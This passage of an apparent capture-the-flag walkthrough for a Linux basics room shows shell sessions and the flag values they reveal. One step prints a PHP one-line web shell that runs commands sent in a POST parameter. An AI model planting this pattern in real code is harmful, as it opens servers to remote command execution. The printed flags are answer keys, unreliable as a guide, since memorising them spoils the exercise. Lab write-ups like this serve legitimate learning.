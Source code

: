 **\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#**

## 7 Login to alice's account using her private key and get flag 17.

bob@ip-10-10-99-145:~$ ssh alice@localhost alice@localhost's password: Last login: Sat Nov 23 09:40:22 2019 from 127.0.0.1 -bash: warning: setlocale: LC\_CTYPE: cannot change locale \(pt\_PT.UTF-8\) alice@ip-10-10-99-145:~$ cat flag17 89d7bce9d0bab49e11e194b54a601362

**\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#**

## 8 Find the hidden flag 18.

alice@ip-10-10-99-145:~$ cat .flag18 c6522bb26600d30254549b6574d2cef2

**\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#**

## 9 Read the 2345th line of the file that contains flag 19.

alice@ip-10-10-99-145:~$ awk 'NR==2345' flag19 490e69bd1bf3fc736cce9ff300653a3b

alice@ip-10-10-99-145:~$ sed '2345!d' flag19 490e69bd1bf3fc736cce9ff300653a3b

**\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#**

\[Task 4\] Data Representation, Strings and Permissions

**\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#**

## 1 Find and retrieve flag 20.

alice@ip-10-10-71-95:~$ locate flag20 /home/alice/flag20 alice@ip-10-10-71-95:~$ cat $\(locate flag20\) MDJiOWFhYjhhMjk5NzBkYjA4ZWM3N2FlNDI1ZjZlNjg= alice@ip-10-10-71-95:~$ cat $\(locate flag20\) \|base64 -d 02b9aab8a29970db08ec77ae425f6e68

**\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#**

## 2 Inspect the flag21.php file. Find the flag.

alice@ip-10-10-71-95:~$ locate flag21.php /home/bob/flag21.php

alice@ip-10-10-71-95:~$ less /home/bob/flag21.php &lt;?=`$_POST[flag21_g00djob]`?&gt;^M&lt;?='MoreToThisFileThanYouThink';?&gt;

**\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#**

## 3 Locate and read flag 22. Its represented as hex.
